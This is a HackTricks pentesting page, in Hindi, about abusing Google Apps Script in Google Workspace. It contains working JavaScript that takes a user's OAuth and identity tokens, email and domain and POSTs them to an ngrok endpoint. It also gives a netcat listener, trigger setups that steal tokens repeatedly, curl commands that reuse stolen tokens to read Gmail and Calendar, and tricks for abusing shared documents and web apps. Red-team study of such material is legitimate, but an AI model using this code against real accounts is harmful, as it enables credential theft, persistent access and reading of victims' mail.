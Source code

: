 # GWS - App Scripts

{{#include ../../../banners/hacktricks-training.md}}

## App Scripts

App Scripts वह **कोड है जो तब सक्रिय होगा जब कोई संपादक अनुमति वाला उपयोगकर्ता उस दस्तावेज़ तक पहुँचता है जिसके साथ App Script जुड़ा हुआ है** और **OAuth प्रॉम्प्ट स्वीकार करने के बाद**।\
इन्हें App Script के मालिक द्वारा **हर निश्चित समय पर निष्पादित** करने के लिए भी सेट किया जा सकता है (Persistence).

### App Script बनाना

App Script बनाने के कई तरीके हैं, हालांकि सबसे सामान्य तरीके **Google Document (किसी भी प्रकार का)** से और **स्वतंत्र परियोजना** के रूप में हैं:

<details>

<summary>Google Docs, Sheets, या Slides से कंटेनर-बाउंड प्रोजेक्ट बनाएं</summary>

1. एक Docs दस्तावेज़, एक Sheets स्प्रेडशीट, या Slides प्रस्तुति खोलें।
2. **Extensions** > **Google Apps Script** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने प्रोजेक्ट का नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>स्वतंत्र परियोजना बनाएं</summary>

Apps Script से स्वतंत्र परियोजना बनाने के लिए:

1. [`script.google.com`](https://script.google.com/) पर जाएं।
2. **New Project** जोड़ने के लिए क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने प्रोजेक्ट का नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>Google Drive से स्वतंत्र परियोजना बनाएं</summary>

1. [Google Drive](https://drive.google.com/) खोलें।
2. **New** > **More** > **Google Apps Script** पर क्लिक करें।

</details>

<details>

<summary>Google Forms से कंटेनर-बाउंड प्रोजेक्ट बनाएं</summary>

1. Google Forms में एक फॉर्म खोलें।
2. More more_vert > **Script editor** पर क्लिक करें।
3. स्क्रिप्ट संपादक में, **Untitled project** पर क्लिक करें।
4. अपने प्रोजेक्ट का नाम दें और **Rename** पर क्लिक करें।

</details>

<details>

<summary>clasp कमांड लाइन टूल का उपयोग करके स्वतंत्र परियोजना बनाएं</summary>

`clasp` एक कमांड लाइन टूल है जो आपको टर्मिनल से Apps Script परियोजनाएँ बनाने, खींचने/धकेलने और तैनात करने की अनुमति देता है।

अधिक जानकारी के लिए [Command Line Interface using `clasp` guide](https://developers.google.com/apps-script/guides/clasp) देखें।

</details>

## App Script परिदृश्य <a href="#create-using-clasp" id="create-using-clasp"></a>

### App Script के साथ Google Sheet बनाएं

एक App Script बनाने से शुरू करें, इस परिदृश्य के लिए मेरी सिफारिश है कि आप एक Google Sheet बनाएं और **`Extensions > App Scripts`** पर जाएं, इससे आपके लिए **शीट से जुड़ी एक नई App Script खुलेगी**।

### टोकन लीक

OAuth टोकन तक पहुँच देने के लिए आपको **`Services +` पर क्लिक करना होगा और जैसे स्कोप जोड़ना होगा**:

- **AdminDirectory**: निर्देशिका के उपयोगकर्ताओं और समूहों तक पहुँच (यदि उपयोगकर्ता के पास पर्याप्त अनुमतियाँ हैं)
- **Gmail**: Gmail डेटा तक पहुँचने के लिए
- **Drive**: ड्राइव डेटा तक पहुँचने के लिए
- **Google Sheets API**: ताकि यह ट्रिगर के साथ काम करे

अपने लिए **आवश्यक स्कोप** बदलने के लिए आप प्रोजेक्ट सेटिंग्स में जा सकते हैं और सक्षम कर सकते हैं: **`Show "appsscript.json" manifest file in editor`.**
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail()
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1)
var oauthToken = ScriptApp.getOAuthToken()
var identityToken = ScriptApp.getIdentityToken()

// Data json
data = {
oauthToken: oauthToken,
identityToken: identityToken,
email: userEmail,
domain: domain,
}

// Send data
makePostRequest(data)

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = ""
page = AdminDirectory.Users.list({
domain: domain, // Use the extracted domain
orderBy: "givenName",
maxResults: 100,
pageToken: pageToken,
})

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10)

// To ask for drive permissions
var files = DriveApp.getFiles()
}

function makePostRequest(data) {
var url = "http://5.tcp.eu.ngrok.io:12027"

var options = {
method: "post",
contentType: "application/json",
payload: JSON.stringify(data),
}

try {
UrlFetchApp.fetch(url, options)
} catch (e) {
Logger.log("Error making POST request: " + e.toString())
}
}
```
अनुरोध को कैप्चर करने के लिए आप बस चला सकते हैं:
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
अनुप्रयोग स्क्रिप्ट को निष्पादित करने के लिए अनुरोधित अनुमतियाँ:

<figure><img src="../../../images/image (334).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> चूंकि एक बाहरी अनुरोध किया गया है, OAuth प्रॉम्प्ट भी **बाहरी एंडपॉइंट्स तक पहुँचने के लिए अनुमति मांगेगा**।

### ट्रिगर बनाना

एक बार जब अनुप्रयोग पढ़ लिया जाए, तो **⏰ ट्रिगर्स** पर क्लिक करें ताकि एक ट्रिगर बनाया जा सके। **कार्य** के रूप में **`getToken`** चुनें, जो तैनाती पर **`Head`** पर चलता है, घटना स्रोत में **`From spreadsheet`** चुनें और घटना प्रकार में **`On open`** या **`On edit`** (आपकी आवश्यकताओं के अनुसार) चुनें और सहेजें।

ध्यान दें कि यदि आप कुछ डिबग करना चाहते हैं तो आप **एक्जीक्यूशंस टैब में अनुप्रयोग स्क्रिप्ट के रन की जांच कर सकते हैं**।

### साझा करना

**App Script** को **ट्रिगर** करने के लिए पीड़ित को **संपादक पहुंच** के साथ कनेक्ट करना होगा।

> [!TIP]
> **App Script** को निष्पादित करने के लिए उपयोग किया जाने वाला **टोकन** **ट्रिगर के निर्माता** का होगा, भले ही फ़ाइल को अन्य उपयोगकर्ताओं द्वारा संपादक के रूप में खोला गया हो।

### साझा किए गए दस्तावेज़ों का दुरुपयोग करना

> [!CAUTION]
> यदि किसी ने **आपके साथ एक दस्तावेज़ साझा किया है जिसमें App Scripts और ट्रिगर है जो App Script के Head का उपयोग करता है** (निश्चित तैनाती नहीं), तो आप App Script कोड को संशोधित कर सकते हैं (उदाहरण के लिए चुराने वाले टोकन फ़ंक्शन जोड़ना), इसे एक्सेस कर सकते हैं, और **App Script उन उपयोगकर्ता की अनुमतियों के साथ निष्पादित होगा जिसने आपके साथ दस्तावेज़ साझा किया**! (ध्यान दें कि मालिक का OAuth टोकन ट्रिगर बनाए जाने पर दिए गए एक्सेस स्कोप के रूप में होगा)।
>
> **स्क्रिप्ट के निर्माता को सूचित करने के लिए एक अधिसूचना भेजी जाएगी कि किसी ने स्क्रिप्ट को संशोधित किया है** (क्या जीमेल अनुमतियों का उपयोग करके अलर्ट को रोकने के लिए एक फ़िल्टर बनाने के बारे में?) 

> [!TIP]
> यदि एक **हमलावर App Script के स्कोप को संशोधित करता है** तो अपडेट **दस्तावेज़ पर लागू नहीं होंगे** जब तक कि एक **नया ट्रिगर** परिवर्तनों के साथ नहीं बनाया जाता। इसलिए, एक हमलावर ट्रिगर में सेट किए गए स्कोप से अधिक स्कोप के साथ मालिक के निर्माता टोकन को चुराने में असमर्थ होगा।

### साझा करने के बजाय कॉपी करना

जब आप एक दस्तावेज़ साझा करने के लिए एक लिंक बनाते हैं, तो एक लिंक इस तरह का बनाया जाता है: `https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
यदि आप **"/edit"** के अंत को **"/copy"** में **बदलते हैं**, तो इसे एक्सेस करने के बजाय गूगल आपसे पूछेगा कि क्या आप **दस्तावेज़ की एक प्रति उत्पन्न करना चाहते हैं:**

<figure><img src="../../../images/image (335).png" alt=""><figcaption></figcaption></figure>

यदि उपयोगकर्ता इसे कॉपी करता है और इसे एक्सेस करता है, तो **दस्तावेज़ की सामग्री और App Scripts दोनों को कॉपी किया जाएगा**, हालाँकि **ट्रिगर नहीं होंगे**, इसलिए **कुछ भी निष्पादित नहीं होगा**।

### वेब एप्लिकेशन के रूप में साझा करना

ध्यान दें कि **App Script को वेब एप्लिकेशन के रूप में साझा करना भी संभव है** (App Script के संपादक में, वेब एप्लिकेशन के रूप में तैनात करें), लेकिन इस तरह का एक अलर्ट दिखाई देगा:

<figure><img src="../../../images/image (337).png" alt=""><figcaption></figcaption></figure>

इसके बाद आवश्यक अनुमतियों के लिए **विशिष्ट OAuth प्रॉम्प्ट** आएगा।

### परीक्षण

आप एकत्रित टोकन का परीक्षण कर सकते हैं ताकि ईमेल सूचीबद्ध किया जा सके:
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
उपयोगकर्ता का कैलेंडर सूचीबद्ध करें:
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script के रूप में स्थिरता

स्थिरता के लिए एक विकल्प होगा **एक दस्तावेज़ बनाना और getToken** फ़ंक्शन के लिए एक ट्रिगर जोड़ना और दस्तावेज़ को हमलावर के साथ साझा करना ताकि हर बार जब हमलावर फ़ाइल खोलता है, वह **पीड़ित का टोकन निकालता है।**

यह भी संभव है कि एक App Script बनाई जाए और इसे हर X समय (जैसे हर मिनट, घंटे, दिन...) ट्रिगर किया जाए। एक हमलावर जिसने **पीड़ित के क्रेडेंशियल्स या सत्र को समझौता किया है, वह एक App Script समय ट्रिगर सेट कर सकता है और हर दिन एक बहुत ही विशेषाधिकार प्राप्त OAuth टोकन लीक कर सकता है**:

बस एक App Script बनाएं, ट्रिगर्स पर जाएं, Add Trigger पर क्लिक करें, और घटना स्रोत के रूप में Time-driven चुनें और उन विकल्पों का चयन करें जो आपके लिए सबसे उपयुक्त हैं:

<figure><img src="../../../images/image (336).png" alt=""><figcaption></figcaption></figure>

> [!CAUTION]
> यह एक सुरक्षा अलर्ट ईमेल और आपके मोबाइल पर इस बारे में एक पुश संदेश बनाएगा।

### साझा दस्तावेज़ अवेरिफाइड प्रॉम्प्ट बायपास

इसके अलावा, यदि किसी ने **आपके साथ** **संपादक पहुंच** के साथ एक दस्तावेज़ साझा किया है, तो आप **दस्तावेज़ के अंदर App Scripts उत्पन्न कर सकते हैं** और **दस्तावेज़ का OWNER (निर्माता) App Script का मालिक होगा**।

> [!WARNING]
> इसका मतलब है कि **दस्तावेज़ का निर्माता किसी भी App Script का निर्माता के रूप में दिखाई देगा** जिसे कोई भी संपादक पहुंच के साथ इसके अंदर बनाता है।
>
> इसका मतलब यह भी है कि **App Script को दस्तावेज़ के निर्माता के Workspace वातावरण द्वारा विश्वसनीय माना जाएगा**।

> [!CAUTION]
> इसका मतलब यह भी है कि यदि एक **App Script पहले से मौजूद है** और लोगों ने **पहुँच दी है**, तो कोई भी **Editor** अनुमति वाले व्यक्ति **इसे संशोधित कर सकता है और उस पहुंच का दुरुपयोग कर सकता है।**\
> इसका दुरुपयोग करने के लिए आपको लोगों को App Script को ट्रिगर करने की भी आवश्यकता है। और एक अच्छा ट्रिक है **स्क्रिप्ट को एक वेब ऐप के रूप में प्रकाशित करना**। जब **लोग** जो पहले से **पहुँच** दे चुके हैं, वेब पृष्ठ तक पहुँचते हैं, तो वे **App Script को ट्रिगर करेंगे** (यह `<img>` टैग का उपयोग करके भी काम करता है)।

{{#include ../../../banners/hacktricks-training.md}}
